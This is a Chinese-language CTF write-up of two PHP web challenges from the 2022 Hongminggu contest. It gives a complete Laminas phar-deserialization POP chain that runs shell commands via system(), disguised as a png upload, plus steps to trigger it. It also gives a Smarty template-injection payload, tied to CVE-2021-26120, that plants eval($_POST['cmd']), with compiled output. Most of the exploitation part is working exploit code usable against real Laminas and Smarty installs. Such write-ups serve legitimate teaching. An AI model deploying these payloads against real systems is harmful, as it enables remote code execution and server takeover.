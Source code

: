 # PHP赛题学习—2022红明谷杯

Author: H3rmesk1t

Data: 2022.03.22

# Fan website
## 题目分析
访问`题目链接/www.zip`拿到题目源码, 由于题目给了题目内容是`Laminas组件开发`, 搜索后找到相关利用文章[Zend-Framework-unserialize-pop-chain](https://www.mrkaixin.top/posts/7e504798/#2-Laminas%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE). 简单跟一下题目中的链子, 最终的目的是要实现文件写入, 接着利用`phar`协议来触发反序列化, 先全局搜索反序列化漏洞的起始点`__destruct()`.

<div align=center><img src="./images/1.png"></div>

跟进`laminas\laminas-log\src\Logger.php`, 此处的`$this->writers`是可控的, 接着需要找一个实现了`shutdown`方法的类, 分析可用方法后跟进`laminas\laminas-log\src\Writer\Mail.php`.

<div align=center><img src="./images/2.png"></div>

<div align=center><img src="./images/3.png"></div>

<div align=center><img src="./images/4.png"></div>

由于`setBody`方法并没有在其他函数中进行调用, 因此可以利用这里触发`__call`方法, 跟进到`laminas\laminas-view\src\Renderer\PhpRenderer.php`, 这里会进一步调用`plugin`方法, 当设置了`$__helpers`时, 会调用`$this->__helpers->get`方法, 这里将其赋值为`laminas\laminas-view\src\Resolver\TemplateMapResolver.php`.

<div align=center><img src="./images/5.png"></div>

跟进`laminas\laminas-view\src\Resolver\TemplateMapResolver.php`中的`get`方法, 这里利用`$this->map[$name]`来将前面的`setBody`赋值为`system`等命令执行函数, 从而回到前面的`__call`方法继续调用`call_user_func_array`来执行命令.

<div align=center><img src="./images/6.png"></div>

在题目中给了图片上传的路由和删除的路由, 并且在删除方法中会调用`unlink`方法, 利用这里正好来触发`phar`协议.

<div align=center><img src="./images/7.png"></div>

## 漏洞利用
需要注意的是在上传路由方法中需要绕过`__HALT_COMPILER`特征检测, 并且会对文件后缀名进行检测, 因此还需要把`phar`文件后缀改为`png`等.

```php
<?php
	namespace Laminas\Log {
		
		class Logger {
			
			protected $writers;
			function __construct(){
				$this->writers = [new \Laminas\Log\Writer\Mail()];
			}
		}
	}

	namespace Laminas\Log\Writer {
		
		abstract class AbstractWriter {}
		
		class Mail extends AbstractWriter {

			protected $eventsToMail = ["ls /; cat flag"];
			protected $subjectPrependText = null;
			protected $mail;
			function __construct(){
				$this->mail = new \Laminas\View\Renderer\PhpRenderer();
			}
		}
	}

	namespace Laminas\View\Renderer {

		class PhpRenderer {

			private $__helpers;
			function __construct() {

				$this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
			}
		}
	}

	namespace Laminas\View\Resolver{

		class TemplateMapResolver{

			protected $map = ["setBody"=>"system"];
		}
	}


	namespace {

	    $phar = new Phar("phar.phar");
	    $phar->startBuffering();
	    $phar->setStub("<?php __HALT_COMPILER(); ?>");
	    $object = new \Laminas\Log\Logger();
	    $phar->setMetadata($object);
	    $phar->addFromString("h3rmesk1t.txt", "h3rmesk1t");
	    $phar->stopBuffering();
	}
?>
```

接着利用修改后的文件, 访问`http://eci-2zehsthmgb5z68m80j4g.cloudeci1.ichunqiu.com/album/imgupload`上传文件, 接着访问`http://eci-2zehsthmgb5z68m80j4g.cloudeci1.ichunqiu.com/album/imgdelete`, 输入`/var/www/public/img/59901a7488e9011cd161f102d9430895.png`触发漏洞.

<div align=center><img src="./images/8.png"></div>

# Smarty_calculator
## 题目分析
依旧还是访问`题目链接/www.zip`拿到题目源码, 添加`Cookie: login=1`后`POST {$smarty.version}`, 成功拿到版本信息, 由于题目说了`开发者自己修改了模板的规则`, 这里拉取`Smarty 3.1.39`进行比较, 发现正则规则被修改了.

<div align=center><img src="./images/9.png"></div>

<div align=center><img src="./images/10.png"></div>

<div align=center><img src="./images/11.png"></div>

搜索题目信息后发现存在可以利用的漏洞, `Smarty_Internal_Runtime_TplFunction`沙箱逃逸`PHP`代码注入漏洞(CVE-2021-26120), 参考[GitHub Update](https://github.com/smarty-php/smarty/commit/290aee6db33403a4b9426b572b79a990232b31dd).

由于`Smarty`在编译模板语法时, `Smarty_Internal_Runtime_TplFunction`类在定义时不能正确过滤`name`属性`tplFunctions`, 导致攻击者可以通过注入`Payload`来远程执行代码.

<div align=center><img src="./images/12.png"></div>

但是这里和这个漏洞又不太一样, 需要进行绕过, 先简单`POST`一个数据过去`data={function name='(){};'}{/function}`

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:35:26
  from 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ecbe814d21_96774455',
  'has_nocache_code' => false,
  'file_dependency' => 
  array (
  ),
  'includes' => 
  array (
  ),
),false)) {
function content_6239ecbe814d21_96774455 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};' => 
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\cca2ce857d642a4c0875c01a8508fdfe6fb1889f_0.string.php',
    'uid' => 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f',
    'call_name' => 'smarty_template_function_(){};_18679747696239ecbe74eee5_05027020',
  ),
));
}
/* smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
if (!function_exists('smarty_template_function_(){};_18679747696239ecbe74eee5_05027020')) {
function smarty_template_function_(){};_18679747696239ecbe74eee5_05027020(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
}}
/*/ smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
}
```

根据生成的内容格式, 不难构造恶意的绕过`Payload`: `data={function name='(){};/*";}/*'}*/eval($_POST['cmd']);"}{/function}&cmd=phpinfo();`. 可以看到生成的缓存模板函数中成功完美闭合了.

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:45:24
  from 'c16d407db4adb2d55529d8d5521a1a1585555d84' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ef14a8b872_01812683',
  'has_nocache_code' => false,
  'file_dependency' => 
  array (
  ),
  'includes' => 
  array (
  ),
),false)) {
function content_6239ef14a8b872_01812683 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};/*";}/*' => 
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\c16d407db4adb2d55529d8d5521a1a1585555d84_0.string.php',
    'uid' => 'c16d407db4adb2d55529d8d5521a1a1585555d84',
    'call_name' => 'smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413',
  ),
));
}
/* smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
if (!function_exists('smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413')) {
function smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
?>
*/eval($_POST['cmd']);"}<?php
}}
/*/ smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
}
```

<div align=center><img src="./images/13.png"></div>